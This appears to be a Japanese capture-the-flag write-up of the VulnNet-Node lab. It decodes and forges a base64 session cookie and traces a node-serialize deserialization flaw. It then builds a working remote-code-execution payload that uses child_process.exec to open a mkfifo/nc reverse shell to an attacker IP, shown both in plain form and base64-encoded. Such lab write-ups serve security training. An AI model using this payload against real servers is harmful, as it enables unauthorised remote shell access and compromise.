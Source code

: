 
- セッションの末尾が%3D%3D（==）のbase64ぽい
```
session=eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ%3D%3D
```
- 認証情報を保持していることを確認
```
└─# echo "eyJ1c2VybmFtZSI6Ikd1ZXN0IiwiaXNHdWVzdCI6dHJ1ZSwiZW5jb2RpbmciOiAidXRmLTgifQ=="|base64 -d
{"username":"Guest","isGuest":true,"encoding": "utf-8"} 
```

- GuetをAdminに変更すると値が変わるが、権限が変更されるわけでもない

```
└─# echo '{"username":"Admin","isGuest":false,"encoding": "utf-8"}'|base64
eyJ1c2VybmFtZSI6IkFkbWluIiwiaXNHdWVzdCI6ZmFsc2UsImVuY29kaW5nIjogInV0Zi04In0K 
```
```
Welcome, Admin
```

- クッキー自体を適当な値に返るとエラーが表示され、エラー内容からクッキーの値をデシリアライズしていることがわかる

```
SyntaxError: Unexpected token � in JSON at position 0
    at JSON.parse (<anonymous>)
    at Object.exports.unserialize (/home/www/VulnNet-Node/node_modules/node-serialize/lib/serialize.js:62:16)
    at /home/www/VulnNet-Node/server.js:16:24
    at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)
    at /home/www/VulnNet-Node/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:335:12)
    at next (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:275:10)
```

- ここからデシリアライズに関する脆弱性がないか確認
https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf

# 脆弱性を利用してRCE
- 重要な部分は、execの中身のようなので、中身をリバースシェルに書き換え


```
└─# vi deserialize_attack.txt       
                                                                                      
┌──(root💀kali)-[~/vulnNet_Node]
└─# cat deserialize_attack.txt     
{"username":"_$$ND_FUNC$$_function (){\n require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.82 1234 >/tmp/f', function(error, stdout, stderr) {console.log(stdout) });\n }()","isGuest":false,"encoding": "utf-8"}
                                                                                      
┌──(root💀kali)-[~/vulnNet_Node]
└─# cat deserialize_attack.txt|base64
eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXtcbiByZXF1aXJlKCdjaGlsZF9w
cm9jZXNzJykuZXhlYygncm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3No
IC1pIDI+JjF8bmMgMTAuOS4xLjgyIDEyMzQgPi90bXAvZicsIGZ1bmN0aW9uKGVycm9yLCBzdGRv
dXQsIHN0ZGVycikge2NvbnNvbGUubG9nKHN0ZG91dCkgfSk7XG4gfSgpIiwiaXNHdWVzdCI6ZmFs
c2UsImVuY29kaW5nIjogInV0Zi04In0K

```
